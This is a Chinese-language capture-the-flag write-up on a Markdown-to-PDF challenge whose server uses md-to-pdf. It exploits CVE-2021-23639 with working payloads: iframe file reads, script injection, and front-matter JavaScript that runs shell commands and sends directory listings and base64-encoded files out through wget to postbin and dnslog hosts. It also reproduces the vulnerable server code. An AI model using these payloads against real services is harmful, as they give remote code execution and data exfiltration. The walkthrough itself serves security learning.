


# 题目描述

>  We as developers love markdown but our non dev friends don't. **Convert Your Markdown to PDF** and send them easily :)

>  To access the challenge, click on the following link: http://challenges.hackrocks.com:33333/

进入题目提供的地址，给出的是一个输入markdown导出pdf的界面


# 解题过程

可跳过至payload

## 信息收集

由于太菜，一开始没理解目标是什么，只能看一下网站的源码，啥也没有，通过请求的response倒是发现网站的后台服务是express


再将导出的pdf通过文本的方式打开，发现Producer给的信息是skia/pdf



那么先在百度上搜索**skia/pdf 漏洞**还真找到一篇仅有的[hackthebox-stocker，nmap，gobuster扫描vhost，nodejs sql注入，Skia/PDF漏洞](https://blog.csdn.net/weixin_58624515/article/details/128989932)

按照文中的说明可以用iframe配合file协议直接读取服务器本地文件，才反应过来，原来是类似xss

## 摸索

不过尝试了以下payload发现并没有什么用，导出的pdf中只有一个空白的窗口

```html
<iframe src='file:///etc/passwd' height='1000px' width='1000px'/>

<iframe src='file:///etc' height='1000px' width='1000px'/>
```

一开始怀疑是读取权限问题，又尝试了很多路径`/var/www/html`,`/home/root`等等，都只是空白窗口，以至于开始怀疑是不是用了什么手段导致iframe中的内容不会导出到pdf中或者单纯是同源策略的影响？因此改用如下payload，发现iframe内容是能正确导出的，也应该没有什么同源策略

```html
<iframe src="http://challenges.hackrocks.com:33333/"/>
```

苦思冥想半天找不到思路，就想着能不能用js操作一下，获取渲染pdf时的一些环境信息，因此尝试了如下payload，但并无任何效果

```html


<script>document.write('test')</script>
```

后来尝试发现`<script>document.write('test')</script>`payload是可行的，但当时试的时候不知为何始终没有效果，提交的时候接口等待时间非常长而且还一直返回一个`{"message":"Something went wrong"}`错误

此时本人自信已备受打击，毕竟题目上标的是简单题，而且已有30几人做出来了，排行榜前10平均做题时间是50分钟，我已经做了一个半小时了，从晚上12:00做到1:30，就想着先去睡觉，没想到一觉醒来竟然找到了办法

第二天一早换用google搜索`skia/pdf exploit`，竟找到这样一个漏洞[Remote Code Execution (RCE)](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), [CVE-2021-23639](https://www.cve.org/CVERecord?id=CVE-2021-23639),虽然漏洞是21年的，有点老，而且这里的工具是`md-to-pdf`而不是`skia`，但是试了一下`md-to-pdf`生成的pdf确实带`skia/pdf`字样，而且这个是js的工具，要知道我们前面看过服务端是`express`也就是js服务，几乎能确定网站上用的就是这个

[md-to-pdf的npm界面](https://www.npmjs.com/package/md-to-pdf)

md-to-pdf生成的文件



因此使用新的payload如下，此时虽然iframe窗口仍然是空，但是js代码没被输出到pdf，大概率是被执行了，file协议大概率是不可用，那么我们就有了一个任意命令执行漏洞，但是没有回显，需要回显的话，此时首先想到的是dnslog，有现成的网站不需要自己的服务器

```html
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---

<iframe src='file:///tmp/RCE.txt' />
```

## dnslog

两个可以用的dnslog网站

[dnslog.cn](http://www.dnslog.cn/)

[ceye.io](http://ceye.io/)

用dnslog.cn尝试，先`getSubdomain`之后使用如下payload看看能否成功，但是不知为何一个都没成功，前面已经试过服务器是能访问外网导出的pdf能显示gmail图片；并且也不是dnslog网站的问题，我在自己本地试过，能成功产生dnslog日志

```html
<!-- 第一种 -->


<!-- 第二种 -->
<iframe src='https://xxxx.subdomain.dnslog.cn' />

<!-- 第三种 -->
---js
((require("child_process")).execSync("wget https://xxxx.subdomain.dnslog.cn"))
---

<!-- 第三种 -->
---js
((require("child_process")).execSync("curl https://xxxx.subdomain.dnslog.cn"))
---
```

如此一来似乎由于未知原因dnslog无法使用

## postbin

但是我在[这篇文章](https://techkranti.com/ssrf-aws-metadata-leakage/)中找到另一种简易方案，也不用自己的服务器，可以通过[postbin](https://www.toptal.com/developers/postbin)网站来获取请求信息，以此获得回显，因此新的回显方案有了。尝试过后发现wget命令可用，因此通过如下步骤得到flag

1. 查看pwd，得到应用运行在`/app`路径下

```html
---js
(require("child_process")).execSync("pwd|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

2. ls，得到存在文件`/app/flag.txt`

```html
---js
(require("child_process")).execSync("ls /app|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

3. 获取文件内容

```html
---js
(require("child_process")).execSync("base64 /app/flag.txt -w 0|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

# 最终payload

## 方案1

1. 查看pwd，得到应用运行在`/app`路径下

```html
---js
(require("child_process")).execSync("pwd|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

2. ls，得到存在文件`/app/flag.txt`

```html
---js
(require("child_process")).execSync("ls /app|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
或者
---js
(require("child_process")).execSync("ls|xargs|base64 -w 0|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

3. 获取文件内容

```html
---js
(require("child_process")).execSync("base64 /app/flag.txt -w 0|xargs -I {} wget https://www.toptal.com/developers/postbin/你的postbin地址?{}")
---
```

## 其他技巧

后续通过[HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)的方案，确认`file:`协议不能用

payload如下

```html
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file:///app/index.js");
    xhzeem.send();
</script>
```

## 题目大致结构

```basg
 ---js
(require("child_process")).execSync("tar -cvf test.tar ./ | xargs | base64 -w 0 | xargs -I {} wget https://www.toptal.com/d
evelopers/postbin/1690014115312-7185963666997?{}")
---
```

通过`ls|xargs|base64 -w 0| xargs -I {} wget https://www.toptal.com/developers/postbin/1690014115312-7185963666997?{}`得到目录结构大致如下，其中部分为payload生成


其中最关键的`index.js`内容大致如下

```js
import express from "express";
import { mdToPdf } from "md-to-pdf";
const app = express();
app.use(express.json());
app.use(express.urlencoded({ extended: true }));
app.set("view engine", "ejs");
app.use(express.static("public"));

app.get("/", async (req, res) => {
  return res.render("pages/index");
});

const port = process.env.PORT || 3000;

app.post("/generate", async (req, res) => {
  const { content } = req.body;
  if (!content) return res.status(400).json({ message: "No content provided" });
  const pdf = await mdToPdf(
    { content },
    {
      dest: `${process.cwd()}/public/${Date.now()}.pdf`,
      launch_options: {
        args: ["--no-sandbox"],
      },
    }
  ).catch(console.error);
  if (pdf) return res.redirect(`/${pdf.filename.split("/").pop()}`);
  return res.status(500).json({ message: "Something went wrong" });
});

app.listen(port, () => console.log(`Ready on ${port}`));
```

